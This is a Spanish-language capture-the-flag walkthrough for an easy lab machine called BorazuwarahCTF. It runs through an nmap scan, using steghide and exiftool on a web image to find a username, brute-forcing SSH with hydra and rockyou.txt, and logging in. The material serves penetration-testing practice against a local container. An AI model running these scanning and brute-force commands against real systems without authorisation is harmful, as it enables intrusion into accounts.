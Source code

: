 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](Pasted%20image%2020241106191136.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)


![Img](Pasted%20image%2020240917192325.png)


Nos vamos a la página web y nos sale :

![Img](Pasted%20image%2020240917193213.png)

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](Pasted%20image%2020240917193813.png)


```
cat secreto.txt
```

![Img](Pasted%20image%2020240917193842.png)


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```
![Img](Pasted%20image%2020240917194039.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Img](Pasted%20image%2020240917194231.png)

```
ssh borazuwarah@172.17.0.2
```
![Img](Pasted%20image%2020240917194342.png)


Y ya estamos adentro. 

